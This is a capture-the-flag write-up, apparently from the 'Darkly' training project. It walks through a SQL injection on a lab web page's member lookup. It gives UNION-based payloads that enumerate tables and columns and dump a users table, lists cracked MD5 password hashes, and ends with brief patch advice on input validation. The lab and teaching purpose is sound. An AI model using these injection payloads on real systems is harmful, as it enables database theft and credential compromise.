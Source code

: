 # B00-SQLInjection-members

## BREACH

In this case, we have to exploit the page:

>`http://192.168.56.106/?page=member`

First we try a basic `ISQL` for list all tables,

>`0 UNION SELECT table_name, table_schema FROM information_schema.tables`

We have may lines in output but one is interesting:

![image](https://github.com/Seriots/Darkly/assets/94530285/88f32ef3-d05a-4b4c-bd67-1d3a8cf5115b)

We can see a table names users so, try to `list columns` about this `table`,

>`1 UNION SELECT column_name,null FROM information_schema.columns WHERE table_schema=database()`


![image](https://github.com/Seriots/Darkly/assets/94530285/9849d823-ef56-4438-9152-f8ba0faf88dc)

After dig into all columns we find two are interesting:  `Commentaire` and `countersign`,

>`1 OR 1 UNION SELECT Commentaire,null from users`

![image](https://github.com/Seriots/Darkly/assets/94530285/8e2492c1-b08b-41e5-808c-ba4efe4caf35)

And for countersign:

>`1 OR 1 UNION SELECT countersign,null from users`

![image](https://github.com/Seriots/Darkly/assets/94530285/4b08918e-db5b-4f59-82da-7ae72c9313fe)

We fin these encrypt text are in md5 so lets decode.

>2b3366bcfd44f540e630d4dc2b9b06d9 : YesWeCan

>60e9032c586fb422e2c16dee6286cf10 : oktoberfest

>e083b24a01c483437bcf4a9eea7c1b4d : This one can't be decrypt.

>5ff9d0165b4f92b14994e5c685cdce28 : FortyTwo

The precedent 'Commentaire' was for the last user so we have ton encrypt `fortytwo` in `sha256`

>This is ou flag : `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`


## PATCH

For patch this one we have to `improve` the `sanitization/validation` of input provide by an user,

to `block sql injection`.

Stop writing dynamic queries with string concatenation or

Prevent malicious SQL input from being included in executed queries.
